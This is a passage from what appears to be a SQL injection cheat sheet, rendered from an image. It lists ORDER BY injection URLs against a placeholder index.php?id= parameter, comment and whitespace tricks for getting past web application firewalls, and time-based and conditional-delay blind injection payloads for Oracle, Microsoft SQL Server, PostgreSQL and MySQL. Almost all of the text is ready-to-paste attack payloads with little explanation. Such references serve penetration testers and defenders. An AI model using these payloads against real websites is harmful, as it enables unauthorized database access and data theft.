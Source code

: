             ```jsx
            http://domain.com/index.php?id=1' order by 1)--
            http://domain.com/index.php?id=1' order by 1))--
            http://domain.com/index.php?id=1' order by 1;%00
            http://domain.com/index.php?id=1' order by 1));%00
            http://domain.com/index.php?id=1' order by 1;%60
            http://domain.com/index.php?id=1' order by 1%23
            http://domain.com/index.php?id=1' order by 1%60
            http://domain.com/index.php?id=1' order by 1%90
            http://domain.com/index.php?id=1'%23/* order by 1
            http://domain.com/index.php?id=1') order by 1
            http://domain.com/index.php?id=1' order by 1") ;%00
            http://domain.com/index.php?id=1' order by 1#--+
            http://domain.com/index.php?id=1' order by 1'))%23
            ```
            
        - Whitespace WAF-based bypass
            
            ```jsx
            /**/
            /**_**/
            %23nuLL%0A
            %23qa%0A%23%0A
            %23foo*%2F*bar%0D%0A
            +
            ```
            
        - WAF blocks retrieving information from database()
            
            ```jsx
            Simply replace database() with one of the following payload:
            database/*badd*//**/()
            database%23%0A(%23%0A)
            ```
            
    - Time Delays
        
        ```markup
              Oracle 	      dbms_pipe.receive_message(('a'),10)
              
              Microsoft 	  WAITFOR DELAY '0:0:10'
              
              PostgreSQL 	  SELECT pg_sleep(10)
              
              MySQL 	      SELECT sleep(10)
        ```
        
    - Conditional Delays
        
        ```html
              Oracle 	      SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
              
              Microsoft 	  IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
              
              PostgreSQL 	  SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
              